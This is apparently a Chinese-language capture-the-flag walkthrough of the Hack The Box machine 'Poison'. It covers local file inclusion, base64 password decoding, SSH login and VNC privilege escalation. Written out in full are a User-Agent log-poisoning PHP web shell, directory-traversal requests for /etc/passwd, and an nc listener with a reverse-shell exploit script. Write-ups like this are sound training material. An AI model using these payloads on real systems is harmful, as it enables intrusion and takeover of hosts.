 ```yaml
---
# Documentation: https://wowchemy.com/docs/managing-content/

title: "Poison"
linktitle: "Poison"
date: 2022-05-13T14:17:40+08:00
type: book
summary: ""
test: 
---
```



nmap

```bash
sudo nmap -T4 -Pn -sT -n 10.10.10.84
```

![](image/image_v9hSzPDBuK.png)

80端口

![](image/image_rz38dMNMGc.png)

```bash
http://10.10.10.84/browse.php?file=phpinfo.php
```

![](image/image_Ngy2DYtA1t.png)

查看了下发现

```bash
allow_url_fopen on
allow_url_include off

#不能远程文件包含，只能看看文件
```

```bash
http://10.10.10.84/browse.php?file=listfiles.php
```

发现一个pwdbackup.txt文件

![](image/image_J6ZtuDMCye.png)

```bash
http://10.10.10.84/browse.php?file=pwdbackup.txt
```

居然是密码文件，还提示你解码13次，看起来是base64编码了13次

![](image/image_BDLPJmGpCD.png)

解码13次，写个简单脚本

```python
import base64
import sys

def base64_decode(data,n):
    num=0
    while num < int(n):
        data = base64.b64decode(data)
        num = num +1
    print(data)

if __name__ == '__main__':
    data = sys.argv[2]
    n = sys.argv[1]
    base64_decode(data,n)
```

执行

```python
python3 base64s.py 13 'data'
```

![](image/image_UWYj8hCthj.png)

得到密码

```text
Charix!2#4%6&8(0

```

尝试ssh直接登录root/Charix!2#4%6&8(0，发现密码不正确

尝试了以下密码都失败

```text
Charix!2#4%6&8(0
root!2#4%6&8(0
Root!2#4%6&8(0
ROOT!2#4%6&8(0
```

看一下有什么用户

```bash
http://10.10.10.84/browse.php?file=../../../../../../../../../etc/passwd
```

![](image/image_y9gVwQzLXe.png)

发现用户名charix和，尝试登录charix/Charix!2#4%6&8(0

```bash
ssh charix@10.10.10.84
```

登录成功，

![](image/image_YPSJwFUPlh.png)

其他思路:&#x20;

思路一：

LFI+apache日志

本地文件包含，需要将PHP代码写入服务器文件，并且找到文件路径

找apache日志访问路径，

```text
https://blog.codeasite.com/how-do-i-find-apache-http-server-log-files/
```

![](image/image_XnwrnG4RNl.png)

通过目录穿越访问到apache日志文件，发现记录了User-Agent

![](image/image_o1Pz3nI1Ps.png)

通过文件包含执行命令

发送请求，User-Agent记录在httpd-access.log

```bash
GET /browse.php?file=../../../../../../var/log/httpd-access.log HTTP/1.1
Host: 10.10.10.84
User-Agent: <?php system($_REQUEST['cmd']); ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0



```

执行命令

```bash
GET /browse.php?file=../../../../../../var/log/httpd-access.log&cmd=id HTTP/1.1
Host: 10.10.10.84
User-Agent: <?php system($_REQUEST['cmd']); ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0


```

![](image/image_lCGwG85JHh.png)

这个思路拿到权限用户是www，后门没继续搞下去。

思路二：LFI+phpinfo条件竞争

漏洞原理：php上传的临时文件上传到服务器被删除之前(上传的请求结束就删除，所以要让请求的时间更久)，使用文件包含临时文件执行php代码。

漏洞条件：

-   能够访问phpinfo路径
-   file\_uploads  on

![](image/image_h0_3cKcQx2.png)

参考：

```bash
https://rafalharazinski.gitbook.io/security/other-web-vulnerabilities/local-remote-file-inclusion/phpinfo-log-race-condition
```

脚本地址

```text
https://github.com/roughiz/lfito_rce
```

执行脚本

```bash
nc -lvp 23333

python2 lfito_rce.py -l "http://10.10.10.84/browse.php?file=" --lhost 10.10.16.2 --lport 23333 -t 12 -i "http://10.10.10.84/phpinfo.php"

```

![](image/image_lRX6Gj4DT7.png)

已经拿到www权限。

回到charix用户提权

发现在charix用户目录下有个压缩包文件

![](image/image_NtguOATqA3.png)

下载到本地

```bash
scp charix@10.10.10.84:~/secret.zip ./
```

![](image/image_A-VEtSsT7m.png)

解压，发现密码就是之前登录的密码，`Charix!2#4%6&8(0`

![](image/image_htEVirFqzE.png)

乱码，不知道是什么，先暂时放着

![](image/image_n6-VXc884T.png)

```bash
ps -aux
```

发现Xvnc是以root权限运行

![](image/image_lV-1Y16Qae.png)

```纯文本
ps -auxww |grep vnc
```

vnc的端口是5901

![](image/image_9Gy9xugyxR.png)

```纯文本
netstat -an|grep LIST
```

![](image/image_2rZkLhhUqg.png)

尝试登录vnc，需要将靶机5901端口转发到本地

```纯文本
ssh -L 5901:127.0.0.1:5901 charix@10.10.10.84
```

搜了下发现登录vnc的密码也可以以文件的形式存在

![](image/image_VIBxjsKzhG.png)

之前解压出来的secret文件应该就是密码

```bash
vncviewer -passwd ./secret 127.0.0.1:5901
```

登录成功，并且是root权限

![](image/image_wq_uhnAo4Z.png)
